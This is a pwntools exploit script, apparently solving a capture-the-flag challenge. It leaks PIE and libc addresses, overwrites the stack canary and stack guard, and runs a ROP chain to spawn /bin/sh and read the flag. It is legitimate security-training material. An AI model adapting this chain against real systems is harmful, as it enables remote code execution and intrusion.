 ```python

def leak_address():
    return u64(io.recvline().rstrip().ljust(8, b"\x00"))


elf = context.binary = ELF(CHALLENGE, checksec=0)

if args.REMOTE:
    libc = ELF(TARGET_LIBC, checksec=0)
    io = remote(HOST, PORT)
else:
    libc = elf.libc
    io = elf.process()

with log.progress("Stage 1: Leak PIE address"):
    io.sendlineafter(SIZE_PROMPT, str(1))
    io.sendlineafter(TRIES_PROMPT, str(1))
    io.sendlineafter(GUESS_PROMPT, "a")

    io.recvuntil(GUESS_MARKER)
    pie_1579 = int(io.recvuntil(" ")[:-1])
    elf.address = pie_1579 - 0x1579

    log.success(f"pie @ {hex(elf.address)}")

with log.progress("Stage 2: Overwrite Stack Guard and leak libc base"):
    rop = ROP(elf)
    rop.puts(elf.got.puts)
    rop.win()

    io.sendlineafter(
        INPUT_PROMPT,
        flat(
            {
                CANARY_OFFSET: DUMMY_CANARY,
                RIP_OFFSET: rop.chain(),
                STACK_GUARD_OFFSET: DUMMY_CANARY,
            }
        ),
    )

    libc_puts = leak_address()
    libc.address = libc_puts - libc.sym.puts

    log.success(f"libc @ {hex(libc.address)}")

with log.progress("Stage 3: Pwn"):
    rop1 = ROP([elf, libc])
    rop1.execve(next(libc.search(b"/bin/sh\x00")), 0, 0)

    io.sendlineafter(
        INPUT_PROMPT,
        flat({CANARY_OFFSET: DUMMY_CANARY, RIP_OFFSET: rop1.chain()}),
    )

if args.REMOTE:
    io.sendline(f"cat {REMOTE_FLAGPATH}")
    log.success(f"Flag: {io.recvline_regexS(FLAG_FORMAT)}")
    io.close()
else:
    io.interactive()
```
